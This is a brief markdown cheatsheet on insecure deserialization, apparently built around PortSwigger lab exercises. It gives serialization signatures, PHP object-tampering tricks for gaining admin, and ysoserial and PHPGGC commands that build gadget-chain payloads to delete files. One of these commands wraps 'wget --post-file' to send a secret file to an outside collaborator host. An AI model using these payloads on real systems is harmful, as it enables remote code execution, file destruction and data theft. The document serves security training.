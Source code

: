 ```yaml
---
title: Insecure deserialization
description: Insecure deserialization cheatsheet
---
```


# Insecure deserialization

## Definition

**Insecure deserialization** is a type of computer security vulnerability that occurs when untrusted data is used to deserialize (i.e., recreate) an object in a computer system. This can allow an attacker to execute arbitrary code and potentially compromise the security of the system.

## Cheatsheet

Java serialize : `0xACED` or `rO0` (base64)
Ruby serialize : `\x04\bo:\vUser`

- Modify PHP attribute `O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}` to `b:1`
- Change data type for low comparaison bypass `0 == "Example string" // true`
- Replace `avatar` path in your cookie and delete your account, the file will be delete
- Add `index.php~` to find backup code source
- Inject another PHP object with magic method (__destruct or __wakekup, ...)
- `rm /home/carlos/morale.txt` using pre-built Apache Common gadget chain
- Switch to JDK 11, `java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w0 | copy`
- PHPGGC - `./phpggc Symfony/RCE4 system 'rm /home/carlos/morale.txt'`
- Ruby https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
- `java -jar ysoserial-all.jar CommonsCollections6 'wget --post-file /home/carlos/secret 9hr1ibjg8nya8uzi0bfs85n4yv4mscg1.oastify.com' | gzip -f | base64 -w0 | copy`

## References

- [PortSwigger - Insecure deserialization](https://portswigger.net/web-security/deserialization)
